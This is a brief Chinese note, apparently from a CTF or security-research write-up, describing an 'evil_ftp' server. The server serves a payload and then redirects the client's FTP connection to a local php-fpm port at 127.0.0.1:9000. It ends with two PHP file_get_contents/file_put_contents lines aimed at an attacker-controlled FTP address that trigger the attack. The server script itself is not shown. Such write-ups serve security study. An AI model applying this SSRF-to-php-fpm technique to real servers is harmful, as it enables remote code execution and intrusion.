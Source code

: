 # evil_ftp

运行上述脚本，一个恶意ftp服务就起来了

这个脚本做的事情很简单，就是当客户端第一次连接的时候返回我们预设的payload

当客户端第二次连接的时候将客户端的连接重定向到127.0.0.1:9000,也就是我们的php-fpm服务的端口

ps:其中ftp服务端返回的状态码是比较重要的，如果状态码不对是无法连接成功的，但是这些状态码也不是特别严格
贴一篇参考文章：
https://blog.csdn.net/qq981378640/article/details/51254177

**使用该脚本需要自己修改对应的ip:port**

`$a = file_get_contents("ftp://aaa@172.16.230.146:23/123");`
`file_put_contents("ftp://aaa@172.16.230.146:23/123", $a);`
